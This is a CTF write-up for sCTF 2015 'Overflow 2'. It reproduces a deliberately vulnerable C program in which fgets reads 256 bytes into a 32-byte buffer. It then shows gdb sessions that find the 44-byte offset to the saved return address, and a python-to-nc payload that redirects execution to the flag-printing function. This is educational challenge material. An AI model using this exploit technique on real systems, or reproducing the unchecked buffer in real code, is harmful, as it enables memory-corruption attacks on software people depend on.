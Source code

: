 # sCTF 2015 Q1: Overflow 2

**Points:** 90
**Description:**

> Connect to the server with:
> 
> nc 104.236.255.49 12342
> 
> Here's the binary.
> 
> Here's the source.

## Write-up

If you haven't already read the writeup for Overflow, do it now.

Here is the source: 

```c
/*
Copyright (c) 2015, Cory L.
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions
are met:

1. Redistributions of source code must retain the above copyright
notice, this list of conditions and the following disclaimer.

2. Redistributions in binary form must reproduce the above copyright
notice, this list of conditions and the following disclaimer in the
documentation and/or other materials provided with the distribution.

3. Neither the name of the copyright holder nor the names of its
contributors may be used to endorse or promote products derived from
this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS
"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS
FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE
COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT,
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING,
BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT,
STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE)
ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE,
EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

//intended for use on 32 bit little endian systems

#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <signal.h>

void printfile(const char* fname)
{
    FILE *file=fopen(fname,"rt");
    char c;
    while( !feof(file) && (c=fgetc(file))!=EOF ) putchar(c);
    fclose(file);
}

void show_soln(void)
    {
    printfile("flag.txt");
    fflush(stdout);
    }

void test(void)
{
    char name[32];
    

    printf("What is your name? ");
    fgets(name,256,stdin);
    
    srand(time(NULL));

    if( (rand()%100)==(rand()%100) )
    {
        printf("You have good luck, but it still won't be that easy.\n");
        //show_soln();
    }
    else
    {
        printf("You have bad luck.\n");
    }
}

//This function will run when the program segfaults.
//This is a workaround for a "feature" of the wrapper program
//making this a network service.
void handle_segfault(int snum)
{
    printf("segmentation fault\n");
    exit(0);
}

int main(void)
{
    //use a custom handler for any segfaults that occur
    signal(SIGSEGV,handle_segfault);
    
    printf("Let's play a little game of luck!\n");
    test();
    printf("Goodbye.\n");
    return 0;
}
```

Essentially, this program will read up to 256 characters from `stdin` and put them into and potentially beyond the buffer `name`. This program is vulnerable because there are no checks to ensure that `fgets` is only writing where it's supposed to be writing.

To solve this challenge, we will need to overwrite the value of the `eip` register, which is where the program stores the address in memory to return to when the function call is finished. How far `eip` is from the end of the buffer can be determined with some trial and error in the GNU Debugger (`gdb`).

```
$ gdb main -q
Reading symbols from /home/jonathanlee/sCTF-2015A/main...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/jonathanlee/sCTF-2015A/main 
Let's play a little game of luck!
What is your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You have bad luck.
Goodbye.
[Inferior 1 (process 8832) exited normally]
(gdb) run
Starting program: /home/jonathanlee/sCTF-2015A/main 
Let's play a little game of luck!
What is your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You have bad luck.
Goodbye.
[Inferior 1 (process 8836) exited normally]
(gdb) run
Starting program: /home/jonathanlee/sCTF-2015A/main 
Let's play a little game of luck!
What is your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You have bad luck.
Goodbye.

Program received signal SIGSEGV, Segmentation fault.
0x0804888a in main ()
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/jonathanlee/sCTF-2015A/main 
Let's play a little game of luck!
What is your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You have bad luck.

Program received signal SIGSEGV, Segmentation fault.
0x0804000a in ?? ()
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/jonathanlee/sCTF-2015A/main 
Let's play a little game of luck!
What is your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You have bad luck.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

For each successive run, four `A` characters were added. The hexadecimal numbers at the end of the last three runs are the values of `eip` when the program crashed. In the last run, the value of `eip` changed to `0x41414141`, which is four `41`s, the hexadecimal values of the four new `A`s that were added. Therefore, the offset between the start of the buffer and the start of `eip` must be 44 characters, or four fewer characters than the length of the input of the last run. We now know how to overwrite the `eip` register.

What is the address of `show_soln`? We can look that up in the global symbol table.

```
(gdb) p &show_soln
$1 = (<text variable, no debug info> *) 0x8048732 <show_soln>
```

The address in hexadecimal character notation is `\x08\x04\x87\x32`, but since the target system is little-endian (see the additional resources), we need to reverse the order of the bytes. The solution is:  

```
$ python -c "print 'A' * 44 + '\x32\x87\x04\x08'" | nc 104.236.255.49 12342
Let's play a little game of luck!
What is your name? You have bad luck.
_r3dir3ction_
segmentation fault
```

## Other write-ups and resources

* https://picoctf.com/problem-static/binary/this-is-the-endian/endian.html#1
